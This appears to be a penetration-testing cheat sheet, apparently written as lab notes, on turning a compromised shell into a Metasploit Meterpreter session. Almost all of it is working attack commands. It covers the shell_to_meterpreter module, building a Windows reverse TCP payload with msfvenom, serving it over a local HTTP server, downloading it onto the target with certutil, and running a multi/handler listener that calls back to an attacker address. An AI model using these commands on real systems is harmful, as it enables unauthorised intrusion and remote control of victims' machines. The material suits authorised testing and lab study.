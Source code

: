 # Upgrading a Shell to Meterpreter
#### METHOD 1:

1. Background the current session.
2. Then load the following module

```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.10.10.10
run
```

3. OR you can use a single command

```
sessions -u "SESSION ID"
```
#### METHOD 2:

```
#Generating Meterpreter revrse tcp payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.12.2 LPORT=1234   -f exe > meterpreter.exe
```

```
#Hosting Local HTTP server
python3 -m http.server 80
```

```
#Downloading payload to target
certutil -urlcache -f http://10.10.12.2/meterpreter.exe meterpreter.exe
```

#### SETTING UP LISTENER:

```
use multi/handler
set LHOST 10.10.12.2
set LPORT 1234
set payload windows/meterpreter/reverse_tcp
run
```
